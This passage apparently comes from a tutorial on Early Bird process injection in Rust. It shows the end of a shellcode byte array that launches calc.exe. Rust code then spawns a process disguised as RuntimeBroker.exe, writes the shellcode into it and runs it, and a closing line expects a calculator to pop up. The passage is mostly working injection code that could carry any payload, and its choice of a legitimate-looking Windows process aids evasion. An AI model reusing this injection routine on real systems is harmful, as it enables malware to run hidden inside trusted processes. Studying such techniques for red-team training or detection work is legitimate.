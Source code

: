 ```rust
0xff,0xff,0xff,0x5d,0x48,0xba,0x01,0x00,0x00,0x00,0x00,0x00,
0x00,0x00,0x48,0x8d,0x8d,0x01,0x01,0x00,0x00,0x41,0xba,0x31,
0x8b,0x6f,0x87,0xff,0xd5,0xbb,0xf0,0xb5,0xa2,0x56,0x41,0xba,
0xa6,0x95,0xbd,0x9d,0xff,0xd5,0x48,0x83,0xc4,0x28,0x3c,0x06,
0x7c,0x0a,0x80,0xfb,0xe0,0x75,0x05,0xbb,0x47,0x13,0x72,0x6f,
0x6a,0x00,0x59,0x41,0x89,0xda,0xff,0xd5,0x63,0x61,0x6c,0x63,
0x00];
    let payload_vec = payload.to_vec();
    match String::from_utf8(payload_vec.clone()) {
    Ok(s) => println!("{}", s),
    Err(e) => println!("Invalid UTF-8: {}", e),
    }
    let exe = CString::new("RuntimeBroker.exe").unwrap();
    let ptr: *const c_char = exe.as_ptr();

    let _ = earlybird::create_new_process(ptr, &mut dw_process_id, &mut h_process, &mut h_thread);


    let mut p_payload_address : *mut u8 = null_mut();

    let _ = earlybird::write_payload(h_process, payload.as_ptr() as *mut u8, payload.len(), &mut p_payload_address);


    let _ = earlybird::execute_payload(&mut p_payload_address, &mut h_thread, dw_process_id);
   
}
```

## Testing

Wonderful!! With that in place, we can execute it and see if it pops up our calculator.
